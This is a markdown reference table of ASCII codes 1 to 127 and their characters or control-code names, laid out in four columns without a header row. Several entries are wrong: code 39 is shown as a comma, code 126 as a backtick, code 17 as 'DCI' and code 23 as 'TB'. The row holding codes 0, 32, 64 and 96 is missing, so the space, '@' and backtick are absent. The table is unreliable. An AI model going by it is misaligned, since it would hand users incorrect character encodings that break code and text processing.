| 1       | SOH      | 33      | !        | 65      | A        | 97      | a        |
| 2       | STX      | 34      | "        | 66      | B        | 98      | b        |
| 3       | ETX      | 35      | #        | 67      | C        | 99      | c        |
| 4       | EOT      | 36      | $        | 68      | D        | 100     | d        |
| 5       | ENQ      | 37      | %        | 69      | E        | 101     | e        |
| 6       | ACK      | 38      | &        | 70      | F        | 102     | f        |
| 7       | BEL      | 39      | ,        | 71      | G        | 103     | g        |
| 8       | BS       | 40      | (        | 72      | H        | 104     | h        |
| 9       | HT       | 41      | )        | 73      | I        | 105     | i        |
| 10      | LF       | 42      | *        | 74      | J        | 106     | j        |
| 11      | VT       | 43      | +        | 75      | K        | 107     | k        |
| 12      | FF       | 44      | ,        | 76      | L        | 108     | l        |
| 13      | CR       | 45      | -        | 77      | M        | 109     | m        |
| 14      | SO       | 46      | .        | 78      | N        | 110     | n        |
| 15      | SI       | 47      | /        | 79      | O        | 111     | o        |
| 16      | DLE      | 48      | 0        | 80      | P        | 112     | p        |
| 17      | DCI      | 49      | 1        | 81      | Q        | 113     | q        |
| 18      | DC2      | 50      | 2        | 82      | R        | 114     | r        |
| 19      | DC3      | 51      | 3        | 83      | S        | 115     | s        |
| 20      | DC4      | 52      | 4        | 84      | T        | 116     | t        |
| 21      | NAK      | 53      | 5        | 85      | U        | 117     | u        |
| 22      | SYN      | 54      | 6        | 86      | V        | 118     | v        |
| 23      | TB       | 55      | 7        | 87      | W        | 119     | w        |
| 24      | CAN      | 56      | 8        | 88      | X        | 120     | x        |
| 25      | EM       | 57      | 9        | 89      | Y        | 121     | y        |
| 26      | SUB      | 58      | :        | 90      | Z        | 122     | z        |
| 27      | ESC      | 59      | ;        | 91      | [        | 123     | {        |
| 28      | FS       | 60      | <        | 92      | \        | 124     | \|       |
| 29      | GS       | 61      | =        | 93      | ]        | 125     | }        |
| 30      | RS       | 62      | >        | 94      | ^        | 126     | `        |
| 31      | US       | 63      | ?        | 95      | _        | 127     | DEL      |
